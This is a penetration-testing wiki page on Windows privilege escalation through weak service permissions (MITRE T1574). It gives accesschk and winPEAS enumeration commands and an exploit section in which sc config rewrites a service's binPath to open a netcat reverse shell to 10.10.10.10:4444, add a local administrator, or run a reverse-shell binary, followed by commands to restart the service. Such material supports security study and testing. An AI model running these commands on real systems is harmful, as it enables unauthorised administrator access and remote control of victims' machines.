 ```yaml
---
description: MITRE ATT&CK™ Hijack Execution Flow - Technique T1574
---
```


# Weak Service Permissions

## Theory

It is very often in Windows environments to discover services that run with SYSTEM privileges. If you have permissions over the service you can use it to escalate you privileges.

## Practice

If we have enough permissions over a service, we can edit the `binPath` parameters and replace it with our own binary or command.

{% tabs %}
{% tab title="Enumerate" %}
If you have `SERVICE_CHANGE_CONFIG` or `SERVICE_ALL_ACCESS` permissions, you can replace the binary.

We can use [AccessChk](https://learn.microsoft.com/fr-fr/sysinternals/downloads/accesschk) from sysinternals tools to enum permissions over services.

```powershell
#list all the services that a specific user can modify.
accesschk64.exe -uwcqv "pwned" * -accepteula
accesschk64.exe -uwcqv "Authenticated Users" * -accepteula
accesschk64.exe -uwcqv "BUILTIN\Users" * -accepteula
accesschk.exe -uwcqv %USERNAME% * -accepteula

#list permissions of evryone.
accesschk64.exe -uwcqv * -accepteula

#list permissions for "VulnSvc" service.
accesschk64.exe -uwcqv VulnSvc -accepteula
```

We also can use the `servicesinfo` module of [WinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

```powershell
winPEASx64.exe servicesinfo
```
{% endtab %}

{% tab title="Exploit" %}
We can edit the binpath parameter with following commands

```powershell
sc config <Service_Name> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
sc config <Service_Name> binpath= "net localgroup administrators username /add"
sc config <Service_Name> binpath= "cmd \c C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"
sc config <Service_Name> binpath= "C:\Documents and Settings\PEPE\reverseShell.exe"
```

And then, restart the service

```powershell
#Using wmic
wmic service <Service_Name> call stopservice
wmic service <Service_Name> call startservice

#Using net
net stop <Service_Name> && net start <Service_Name>

#Using sc.exe
sc stop <Service_Name>
sc start <Service_Name>
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---incorrect-permissions-in-services" %}
